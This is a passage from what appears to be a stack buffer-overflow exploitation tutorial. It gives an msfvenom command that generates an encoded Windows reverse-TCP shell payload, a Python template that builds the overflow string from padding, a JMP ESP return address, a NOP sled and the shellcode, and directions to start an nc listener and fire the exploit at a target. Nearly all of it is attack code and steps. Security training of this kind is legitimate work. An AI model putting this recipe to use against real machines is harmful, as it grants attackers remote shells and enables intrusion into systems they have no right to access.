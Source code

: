 Now that you've got all the information required to execute code on the target machine. This can be done using the tools `msfvenom` and `shikata_ga_nai`.

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp \
  LHOST=<HOST> LPORT=<PORT> \
  -e x86/shikata_ga_nai \
  -f python -b '<bad-chars>'
```

Once you have the payload, add it back into your python code. It's important that you space the payload out with some NOP characters (`\x90`) so that your program has space to execute.

```python
malicous_payload = "<msfvenom payload>"
return_address = "<JMP ESP address>"
offset = "<EIP offset>"
overflow_length = "<amount of characters to oveflow>"

payload = "A" * offset + return_address + \
  '\x90' * 16 + malicous_payload + \
  "C" * (overflow_length - \
    len(malicous_payload) - \
    offset - len(return_address) - 16) 
```

<span id="take-control-1" />

### Take Control

Now that you've got your payload ready, it's just a matter of setting up a `nc` listener and performing the exploit. It's important that you test the payload before attacking a real machine, because you only get one shot. It's also important that you don't forget to make the return address the right one for the network you're on.
